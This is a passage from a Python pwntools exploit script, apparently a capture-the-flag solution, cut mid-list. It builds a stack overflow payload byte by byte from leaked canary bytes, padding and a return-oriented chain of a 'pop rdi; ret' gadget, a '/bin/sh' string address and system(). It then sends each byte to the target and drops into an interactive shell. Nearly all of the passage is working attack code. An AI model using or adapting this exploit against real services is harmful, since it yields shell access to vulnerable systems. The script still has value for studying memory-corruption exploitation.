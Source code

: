 ```python
           canary_byte[3], # canary 5
           canary_byte[2], # canary 6
           canary_byte[1], # canary 7
           canary_byte[0], # canary 8
           "0", # padding1
            "0",#padding
            "0",#padding
            "0",#padding
            "0",#padding
            "0",#padding
            "0",#padding
            "0",#padding
           "0", # padding2
            "0",#padding
            "0",#padding
            "0",#padding
            "0",#padding
            "0",#padding
            "0",#padding
            "0",#padding
           "0", # padding3
            "0",#padding
            "0",#padding
            "0",#padding
            "0",#padding
            "0",#padding
            "0",#padding
            "0",#padding
           str(pop_rdi_ret & 0xff), # pop_rdi_ret
            str( (pop_rdi_ret >> 8 ) & 0xff), # pop_rdi_ret
            str( (pop_rdi_ret >> 16 ) & 0xff), # pop_rdi_ret
            str( (pop_rdi_ret >> 24 ) & 0xff), # pop_rdi_ret
            str( (pop_rdi_ret >> 32 ) & 0xff), # pop_rdi_ret
            str( (pop_rdi_ret >> 40 ) & 0xff), # pop_rdi_ret
            str( (pop_rdi_ret >> 48 ) & 0xff), # pop_rdi_ret
            str( (pop_rdi_ret >> 56 ) & 0xff), # pop_rdi_ret
           str(bin_sh & 0xff), # bin_sh
            str( (bin_sh >> 8 ) & 0xff), # bin_sh
            str( (bin_sh >> 16 ) & 0xff), # bin_sh
            str( (bin_sh >> 24 ) & 0xff), # bin_sh
            str( (bin_sh >> 32 ) & 0xff), # bin_sh
            str( (bin_sh >> 40 ) & 0xff), # bin_sh
            str( (bin_sh >> 48 ) & 0xff), # bin_sh
            str( (bin_sh >> 56 ) & 0xff), # bin_sh
           str(system_addr & 0xff), # system_addr
            str( (system_addr >> 8 ) & 0xff), # system_addr
            str( (system_addr >> 16 ) & 0xff), # system_addr
            str( (system_addr >> 24 ) & 0xff), # system_addr
            str( (system_addr >> 32 ) & 0xff), # system_addr
            str( (system_addr >> 40 ) & 0xff), # system_addr
            str( (system_addr >> 48 ) & 0xff), # system_addr
            str( (system_addr >> 56 ) & 0xff), # system_addr
           ]

payloads[0] = str(len(payloads) + 16)
# sending payload
for payload in payloads:
    print r.recvuntil(": ")
    log.success("sending: "+payload)
    r.send(payload+"\n")

r.interactive()

```